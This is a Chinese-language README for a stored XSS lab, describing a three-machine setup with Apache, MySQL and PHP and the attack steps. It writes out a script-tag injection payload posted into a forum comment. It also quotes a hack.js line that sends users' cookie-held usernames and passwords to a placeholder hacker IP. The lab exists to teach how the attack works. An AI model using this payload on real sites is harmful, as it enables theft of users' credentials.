 # 跨站式脚本攻击（XSS attack) 实验

# 支持操作系统
Windows, Linux
# 需要软件
Apache HTTP Server, MySQL, PHP 7.0
# 安装细节
本实验需要三部电脑以模仿Hacker, 正常用户和服务器。
在这实验中， Hacker需要安装 Apache和PHP, 而服务器三个软件都需要安装。
对于Windows, 把代码放到 Apache 的 DocumentRoot: C:\Apache24\htdocs
对于Linux，把代码放到 Apache 的 DocumentRoot: /var/www/html/
Hacker 和服务器的代码分别在 hack 和 webserver文件夹里。
然后， 在webserver/databaseAuth.txt 需要隔行分别提供MySQL的用户名和密码
然后，在/hack/hack.js里需要把代码进行修改 (第16行）：script.src = 'http://#在这里写hacker的IP地址#/index.php?username=' + username + '&password='+password;
# 实验过程
我门设定了用户 hacker 和他的密码位：78539816, 正常用户 jim123 和他的密码位：12345678 (这些可在createDatabase.sql 修改）。
每当用户登入到网站，服务器将会在cookies里记录用户名和密码。
首先， hacker在登入了网页后，在论坛的评论输入区输入恶意代码： <script type = "text/javascript" src = "http://#在这里写hacker的IP地址#/hack.js"></script>
，并注入到数据库里。这样，恶意代码只要数据库管里员一日没有发现，恶意代码将会永远存储在数据库。每当正常用户
在论坛里登入后再发评论，会显示到其他用户的评论，而在此时恶意代码将会执行，并把存放在正常用户客户端的Cookies发到Hacker，从而Hacker得到用户名和密码。
